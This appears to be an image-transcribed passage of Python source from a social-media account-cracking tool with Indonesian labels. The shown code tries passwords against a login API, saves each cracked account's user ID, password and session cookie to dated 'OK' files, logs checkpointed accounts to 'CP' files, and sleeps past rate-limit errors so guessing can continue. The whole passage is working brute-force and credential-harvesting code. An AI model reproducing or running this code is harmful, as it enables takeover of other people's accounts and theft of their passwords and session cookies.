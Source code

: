 						self.ok.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{H2}{user}|{pw}{P2} ")

						tree.add(Panel(f"{H2}{coki}{P2}",style=f"{color_panel}"))

						prints(tree)

						open(f"OK/{self.hari_ini}.txt","a").write(f"{user}|{pw}|{coki}\n")

						break

				elif "User must verify their account" in post.text:

					user = post.json()["error"]["error_data"]["uid"]

					if user in self.ok or user in self.cp:

						break

					else:

						self.cp.append(user)

						tree = Tree(" ",guide_style=f"{color_panel}")

						tree.add(f"\r{K2}{user}|{pw}{P2} ")

						prints(tree)

						open(f"CP/{self.hari_ini}.txt","a").write(f"{user}|{pw}\n")

						break

				elif "Calls to this api have exceeded the rate limit. (613)" in post.text:

					prog.update(des,description=f" {H2}•{P2} crack {M2}spam{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")

					prog.advance(des)

					time.sleep(30)

				else:continue

		except ConnectionError:

			time.sleep(30)

			self.metode_api(user,pwx)

		self.loop +=1

	###----------[ PRINT SIMPAN HASIL ]---------- ###

	def simpan_hasil(self):

		prints(Panel(f"""\r{P2}hasil crack ok tersimpan ke : OK/{self.hari_ini}.txt

{P2}hasil crack ok tersimpan ke : CP/{self.hari_ini}.txt""",width=80,padding=(0,10),style=f"{color_panel}"))

###----------[ MENU LAIN ]---------- ###
